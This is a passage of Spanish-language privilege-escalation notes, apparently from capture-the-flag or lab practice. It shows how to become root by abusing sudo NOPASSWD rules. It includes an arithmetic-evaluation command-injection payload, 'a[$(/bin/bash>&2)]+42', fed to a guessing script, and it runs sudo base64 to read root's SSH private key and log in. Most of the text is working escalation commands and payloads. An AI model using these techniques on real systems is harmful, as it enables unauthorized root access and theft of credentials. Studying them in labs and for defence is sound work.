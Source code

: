 sudo /usr/bin/python3 /opt/script.py

y listo, somos root !!!

-------------------------------------------------------------------------------

11.-	/opt/bash

User toctoc may run the following commands on c149f26a05b1:
    (ALL : NOPASSWD) /opt/bash

sudo /opt/bash

-------------------------------------------------------------------------------

12.-	/bin/bash /opt/penguin.sh

(ALL) NOPASSWD: /bin/bash /opt/penguin.sh

tenemos que analizar el código de penguin.sh y ver que es lo que hace para luego así ver que si podemos ingresar comandos, ya que no se tiene permisos de escritura ni en el archivo ni el directorio opt

codigo de penguin.sh

read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi


ejecutar de la siguiente manera:

sudo /bin/bash /opt/penguin.sh

luego cuando pide ingresar algo colocamos:

a[$(whoami>&2)]+42 -> me indica un mensaje que somos root:

ahora el comando que debemos ingresar para escalar privilegios es:

a[$(/bin/bash>&2)]+42

y listo somos root !!!

-------------------------------------------------------------------------------

13.-	/usr/bin/base64
User verde may run the following commands on c6b7ad24b5ac:
    (root) NOPASSWD: /usr/bin/base64

Para este caso es tener ese resultado del sudo -l y el puerto ssh abierto.
 
Paso 1:
sudo base64 /root/.ssh/id_rsa | base64 --decode

Paso 2:
Si recordamos el puerto 22 estaba abierto, entonces tratamos de leer el id_rsa de root para poder loggearnos.
